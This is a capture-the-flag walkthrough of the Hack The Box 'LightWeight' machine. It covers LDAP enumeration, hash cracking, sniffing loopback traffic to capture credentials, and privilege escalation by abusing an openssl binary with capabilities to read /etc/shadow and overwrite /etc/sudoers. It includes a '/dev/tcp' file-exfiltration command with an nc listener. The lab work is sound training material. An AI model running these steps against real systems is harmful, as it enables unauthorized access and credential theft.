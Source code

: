 # LightWeight Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA lightweight 10.10.10.119``

![image](https://user-images.githubusercontent.com/123066149/230068049-0ad3271d-20be-4627-8245-4429e0113d02.png)

``nmap -p- -sV -oA fullightweight 10.10.10.119``

![image](https://user-images.githubusercontent.com/123066149/230068172-aa331b6f-d01a-4559-9c92-85392cfd6713.png)

### We have this web interface :

![image](https://user-images.githubusercontent.com/123066149/230068387-3dbb2f3b-b7ea-404c-a43c-204cfc4ead25.png)

### We can ssh to the machine with user account :

![image](https://user-images.githubusercontent.com/123066149/230068533-66f687a9-615f-498b-9400-339fb663eb68.png)

![image](https://user-images.githubusercontent.com/123066149/230069025-076b8c50-a956-4994-8588-27477ba73f88.png)

### Password is the account name :

![image](https://user-images.githubusercontent.com/123066149/230069269-8f370a54-11c7-49ed-a6c9-7bc51e1bef5d.png)

### we can login in this box with the other account but not with ldapuser :

![image](https://user-images.githubusercontent.com/123066149/230069544-8c5dfca2-7bb9-47d3-a16a-8fd9b4fe5bd5.png)

### LDAP recon :

``ldapsearch -x -H ldap://10.10.10.119``

![image](https://user-images.githubusercontent.com/123066149/230069798-9312c24a-8f87-47a4-8b9d-1c98c44d6d38.png)

``ldapsearch -x -H ldap://10.10.10.119 -s base namingcontexts``

![image](https://user-images.githubusercontent.com/123066149/230070029-d966488e-e79c-4fd7-bf28-7b7ed7db8725.png)

``ldapsearch -x -H ldap://10.10.10.119 -b "dc=lightweight,dc=htb"``

![image](https://user-images.githubusercontent.com/123066149/230070264-b69be4bb-c4a2-48d4-9034-6222b1210d90.png)

### It's base64 encoded hash :

``echo -n "e2NyeXB0fSQ2JHhKeFBqVDBNJDFtOGtNMDBDSllDQWd6VDRxejhUUXd5R0ZRdmszYm9heW11QW1NWkNPZm0zT0E3T0t1bkxaWmxxeXRVcDJkdW41MDlPQkUyeHdYL1FFZmpkUlF6Z24x" | base64 -d``

![image](https://user-images.githubusercontent.com/123066149/230070903-88fe5f12-4bce-4aa7-abf0-493fe7e9da45.png)

![image](https://user-images.githubusercontent.com/123066149/230071237-f88d895f-d66d-44ba-ad2d-8b5754f7d32e.png)

### We can remove crypt sting :

![image](https://user-images.githubusercontent.com/123066149/230071418-ae5ac718-720d-4faf-8ebb-0ce275e40e10.png)

![image](https://user-images.githubusercontent.com/123066149/230072436-9c8a425e-1381-4c4f-8beb-173dee4a699f.png)

``hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt``

![image](https://user-images.githubusercontent.com/123066149/230072705-978ea4db-64ef-4ece-9f23-a5958be5b789.png)

``john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt``

![image](https://user-images.githubusercontent.com/123066149/230072956-85e7133b-8fd2-4e0e-831d-869b767f74c3.png)

### In 2 clicks you can see the users leak with JXplorer :

![image](https://user-images.githubusercontent.com/123066149/230073556-99161c67-1c1e-4e67-b882-9ece584fdd31.png)

![image](https://user-images.githubusercontent.com/123066149/230073699-6f9cf8e6-2b1f-4205-8e6b-c47dc6a3a29a.png)

# ${{\color{purple}Initial Foothold}}\ $

### As user i runed linenum in the box :

![image](https://user-images.githubusercontent.com/123066149/230074213-b79819d4-48e0-4325-963e-07bf4ab215ab.png)

``ssh 10.10.16.2@10.10.10.119 "/usr/sbin/tcpdump -i ens160 -U -s0 -w - 'not port 22'" > lightweight.ens160.cap``

``wireshark lightweight.ens160.cap``

### Nothing on interface ens160 :

![image](https://user-images.githubusercontent.com/123066149/230074580-5d9af87f-8846-4993-9a15-cbc95f6a9414.png)

``ssh 10.10.16.2@10.10.10.119 "/usr/sbin/tcpdump -i lo -U -s0 -w - 'not port 22'" > lightweight.lo.cap ``

``wireshark lightweight.lo.cap``

![image](https://user-images.githubusercontent.com/123066149/230075967-16cef65c-3d3f-46c4-9d91-2ef92992c50e.png)

### Generate trafic to test :

![image](https://user-images.githubusercontent.com/123066149/230076081-4fd54c29-576e-4409-afa7-1066531865e7.png)

![image](https://user-images.githubusercontent.com/123066149/230076128-ccdca04f-b685-4eea-8f6f-74c1db522194.png)

### After reloading all the web page we have ldap trafic :

![image](https://user-images.githubusercontent.com/123066149/230076579-3faf5046-3cf8-4c8e-ae72-1d4d7406bb5b.png)

### Follow TCP Stream and we have ldapuser2 creds :

![image](https://user-images.githubusercontent.com/123066149/230076822-b47fcea8-ff60-4951-aacd-23db87c79d1a.png)

### I used the user 127.0.0.1 because 10.10.16.2 was not on sudoer file :

![image](https://user-images.githubusercontent.com/123066149/230079555-c007692e-ac97-4bc5-91b7-e063db60d68c.png)

# ${{\color{purple}Exploitation}}\ $

### We have backup.7z file on ldapuser2 desktop :
### File transfert without netcat :

``cat backup.7z > /dev/tcp/10.10.16.2/9001``

``nc -nlvp 9001 > backup.7z``

![image](https://user-images.githubusercontent.com/123066149/230080710-3ed3055d-033f-4401-9b1d-81ffc1991cfb.png)

### When i try 7z2john i have this error :

``7z2john backup.7z``

![image](https://user-images.githubusercontent.com/123066149/230080964-32cce931-2a5d-4532-93ac-50c999d8f91e.png)

### Install this for fixing the error message :

``apt install libcompress-raw-lzma-perl``

![image](https://user-images.githubusercontent.com/123066149/230081367-276d2b76-0aa0-45d1-8bb6-cab216feb8f1.png)

![image](https://user-images.githubusercontent.com/123066149/230083698-1b992505-7fd3-461c-b671-141b1abcc727.png)

``john backuphash.txt --wordlist=/usr/share/wordlists/rockyou.txt``

![image](https://user-images.githubusercontent.com/123066149/230083829-436f7b3e-ea80-46f3-b32a-38a4b4b7a8cf.png)

 ``7z x backup.7z``
 
 ![image](https://user-images.githubusercontent.com/123066149/230084395-bdb56dba-4309-4637-88dc-4144223609f4.png)

### In the status.php file we have ldapuser1 creds :

![image](https://user-images.githubusercontent.com/123066149/230084755-21f15dc7-35b9-4b66-9bbf-4d34ac3dc043.png)

 ``su - ldapuser1``
 
 ![image](https://user-images.githubusercontent.com/123066149/230094644-0b6e29e0-9115-4308-a4bd-bcce86bd09db.png)
 
# ${{\color{purple}Privilege Escalation}}\ $

![image](https://user-images.githubusercontent.com/123066149/230097354-bfead45a-4da0-44d6-8ec0-c9908e221ea0.png)

``getcap *``

### ep = all acpability cela permet d'effectuer l'elevation des privilèges :

![image](https://user-images.githubusercontent.com/123066149/230096352-9df56fed-6be5-4290-a48e-32a591a19815.png)

``man capabilites``

![image](https://user-images.githubusercontent.com/123066149/230097488-fbb14914-e109-4482-9bd1-2c3e8d520ef3.png)

![image](https://user-images.githubusercontent.com/123066149/230097825-d97dea8e-e609-425c-b470-1acde7f6ec08.png)

``./openssl enc -in /etc/shadow``

![image](https://user-images.githubusercontent.com/123066149/230098099-85b70a6f-a841-4739-b05f-f8b5b5985d59.png)

``./openssl enc -in /etc/sudoers > sudoers``

![image](https://user-images.githubusercontent.com/123066149/230098782-293ab9dc-8202-4a0b-a847-bc9800c3b69f.png)

### Edit the sudoers file with vi or nano :

![image](https://user-images.githubusercontent.com/123066149/230099786-d8d76c62-2d2c-4ae3-8f38-bc43b65b140b.png)

### Cat the file and put the file in /etc/sudoers :

 ``cat ./sudoers | ./openssl enc -out /etc/sudoers``
 
 ![image](https://user-images.githubusercontent.com/123066149/230100637-bf027fd7-3562-4216-8639-46cdcef8257c.png)

 ``sudo su``
 
 ![image](https://user-images.githubusercontent.com/123066149/230100868-6a831a4e-8df6-4d08-9708-33e2493c0b8a.png)

 
# ${{\color{purple}Points of Improvement}}\ $
